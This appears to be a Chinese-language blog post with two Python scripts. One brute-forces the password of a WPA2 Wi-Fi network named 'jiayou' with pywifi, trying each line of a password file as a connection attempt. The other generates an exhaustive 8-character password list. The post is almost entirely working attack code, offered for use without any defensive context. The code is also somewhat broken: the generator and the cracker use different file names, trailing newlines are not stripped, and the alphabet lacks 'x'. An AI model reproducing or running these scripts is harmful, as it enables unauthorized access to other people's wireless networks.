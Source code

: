 ```yaml
---
published: true
---
```


>基本逻辑：获取无线网卡--创建连接--读取密码本进行破解

<!-更多->

````YMAL
import pywifi
from pywifi import const
import time

#测试连接，返回链接结果
def wifiConnect(pwd):

    #抓取网卡接口
    wifi=pywifi.PyWiFi()

    #获取第一个无线网卡
    ifaces=wifi.interfaces()[0]

    #断开所有连接
    ifaces.disconnect()
    time.sleep(1)
    wifistatus=ifaces.status()

    if wifistatus ==const.IFACE_DISCONNECTED:

        #创建WiFi连接文件
        profile=pywifi.Profile()

        #要连接WiFi的名称
        profile.ssid="jiayou"

        #网卡的开放状态
        profile.auth=const.AUTH_ALG_OPEN

        #wifi加密算法,一般wifi加密算法为wps
        profile.akm.append(const.AKM_TYPE_WPA2PSK)

        #加密单元
        profile.cipher=const.CIPHER_TYPE_CCMP

        #调用密码
        profile.key=pwd

        #删除所有连接过的wifi文件
        ifaces.remove_all_network_profiles()

        #设定新的连接文件
        tep_profile=ifaces.add_network_profile(profile)
        ifaces.connect(tep_profile)

        #wifi连接时间
        time.sleep(3)

        if ifaces.status()==const.IFACE_CONNECTED:
            return True
        else:
            return False


    else:
        print("已有wifi连接") 

#读取密码本
def readPassword():

    print("开始破解:")
    #密码本路径
    path="./password1.txt"

    #打开文件
    file=open(path,"r")

    while True:
        try:
            #一行一行读取
            pad=file.readline()
            bool=wifiConnect(pad)

            if bool:
                print("密码已破解： ",pad)
                print("WiFi已自动连接！！！")
                break
            else:
                #跳出当前循环，进行下一次循环
                print("密码破解中....密码校对: ",pad)
        except:
            continue

readPassword()
``
>随机生成密码本

````YMAL

import itertools as its

# 迭代器
number = "1234567890"
words = "abcdefghijklmnopqrstuvwyz"
te_su = ".!@#$%&*"

# 生成密码本的位数，此处生成8位数，repeat=8
r = its.product(number+words+te_su, repeat=8)

# 保存在文件中，追加
dic = open("./password.txt", "a")

# i是元组
for i in r:
    # jion空格链接
    dic.write("".join(i))
    dic.write("".join("\n"))
    print(i)
dic.close()
print("密码本已生成")
``
